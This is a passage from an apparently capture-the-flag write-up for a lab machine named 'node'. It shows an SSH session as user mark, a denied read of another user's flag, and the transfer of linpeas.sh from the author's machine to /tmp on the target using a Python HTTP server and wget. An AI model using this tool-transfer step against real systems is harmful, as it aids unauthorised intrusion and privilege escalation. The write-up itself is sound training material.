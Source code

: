 ```
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Feb 17 06:52:30 2023 from 10.10.14.14
mark@node:~$ whoami
mark

```

Grabbing the user flag.

```
mark@node:~$ pwd
/home/mark
mark@node:~$ ls
mark@node:~$ cd ..
mark@node:/home$ ls
frank  mark  tom
mark@node:/home$ cd tom
mark@node:/home/tom$ ls
user.txt
mark@node:/home/tom$ cat user.txt
cat: user.txt: Permission denied
```

Now, I was denied the permission to view the flag and it was obvious that I had to either escalate my privileges to tom or root in order to view the flag.

So, I decided to transfer `Linpeas` from my machine to the target machine.

I started up a python server in the same directory that the script resides, using the following command:

```
python -m http.server 8081
```

Inside the target machine, I moved to `/tmp` directory where I had write privileges and downloaded the Linpeas script

```
mark@node:/home/tom$ cd /tmp 
mark@node:/tmp$ wget http://10.10.14.53:8081/linpeas.sh
--2023-02-17 16:28:29--  http://10.10.14.53:8081/linpeas.sh
Connecting to 10.10.14.53:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828078 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                                      100%[====================================================================================================================================================>] 808.67K   449KB/s    in 1.8s    

2023-02-17 16:28:32 (449 KB/s) - 'linpeas.sh' saved [828078/828078]
```